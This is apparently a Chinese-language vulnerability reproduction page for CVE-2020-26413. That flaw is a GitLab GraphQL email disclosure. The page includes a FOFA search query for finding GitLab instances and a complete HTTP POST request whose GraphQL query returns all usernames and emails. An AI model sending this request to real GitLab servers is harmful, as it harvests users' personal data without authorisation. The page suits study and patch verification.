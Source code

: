 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

<a-checkbox checked>GitLab 13.4 - 13.6.2</a-checkbox></br>

## FOFA

<a-checkbox checked>title="GitLab"</a-checkbox></br>

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

<a-alert type="success" message="访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/gitlab-2.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![img](../../../.vuepress/public/img/gitlab-3.png)



发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](../../../.vuepress/public/img/gitlab-4.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露

